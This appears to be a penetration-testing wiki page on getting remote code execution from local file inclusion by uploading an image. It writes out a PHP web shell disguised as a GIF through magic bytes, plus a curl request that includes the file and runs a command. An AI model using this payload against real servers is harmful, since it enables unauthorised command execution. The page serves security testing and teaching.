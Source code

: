 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# file upload

## Image Upload

> [!TIP]
> The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).

```bash
# GIF8 is for magic bytes
echo 'GIF8<?php system($_GET["cmd"]); ?' > shell.gif

curl --user-agent "PENTEST" "$URL/?parameter=/path/to/image/shell.gif&cmd=id"
```

> [!TIP]
> Other LFI to RCE via file upload methods may be found later on the chapter [LFI to RCE (via php wrappers)](file-upload.md#via-php-wrappers-and-streams).